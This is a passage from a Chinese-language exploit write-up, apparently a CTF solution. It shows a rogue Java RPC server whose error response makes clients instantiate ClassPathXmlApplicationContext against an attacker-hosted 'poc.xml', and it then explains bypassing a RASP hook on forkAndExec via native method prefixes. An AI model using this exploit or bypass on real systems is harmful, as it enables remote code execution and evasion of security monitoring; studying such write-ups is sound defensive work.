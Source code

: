 ```
            dataPack.setDataLst(res);
            channel.writeAndFlush(dataPack);
        }
        return;
    }
    try {
        throw new Throwable("test");
        // RequestWrapper requestWrapper =
        // new RequestWrapper(requestHeader.getServiceType(),
        // this.protocolType, requestHeader.getProtocolVer(),
        // connHeader.getFlag(), rpcRequestBody.getTimeout());
        // requestWrapper.setMethodId(rpcRequestBody.getMethod());
        // requestWrapper.setRequestData(PbEnDecoder.pbDecode(true,
        // rpcRequestBody.getMethod(), rpcRequestBody.getRequest().toByteArray()));
        // requestWrapper.setSerialNo(dataPack.getSerialNo());
        // RequestContext context =
        // new NettyRequestContext(requestWrapper, ctx, System.currentTimeMillis());
        // protocols.get(this.protocolType).handleRequest(context, rmtaddrIp);
    } catch (Throwable ee) {
        // List<ByteBuffer> res =
        // prepareResponse(null, rmtVersion, RPCProtos.ResponseHeader.Status.FATAL,
        // ee.getClass().getName(), new StringBuilder(512)
        // .append("IPC server handle request error :")
        // .append(ee.getMessage()).toString());
        List<ByteBuffer> res =
                prepareResponse(null, rmtVersion, RPCProtos.ResponseHeader.Status.FATAL,
                        "org.springframework.context.support.ClassPathXmlApplicationContext",
                        "http://host.docker.internal:4444/poc.xml");
        if (res != null) {
            dataPack.setDataLst(res);
            ctx.channel().writeAndFlush(dataPack);
        }
        return;
    }
}
```

然后 SimpleRasp 拦截了 `java.lang.UNIXProcess#forkAndExec` 方法, 有两种方法绕过

第一种, 如果对 RASP 稍微有点了解的话就会知道一般 hook native 方法都会用到 `java.lang.instrument.Instrumentation#setNativeMethodPrefix`

https://www.jrasp.com/guide/technology/native_method.html

其原理是通过设置 prefix 来实现从 method 到 nativeImplementation 的动态解析

> 1. method(foo) -> nativeImplementation(foo)
> 2. method(wrapped_foo) -> nativeImplementation(foo)
> 3. method(wrapped_foo) -> nativeImplementation(wrapped_foo)
> 4. method(wrapped_foo) -> nativeImplementation(foo)

RASP 一般在实现时会先将 foo 这个 native 方法重命名为 wrapped_foo, 然后自己重新创建一个非 native 同名的 foo 方法, 在内部去调用真正的 wrapped_foo 方法
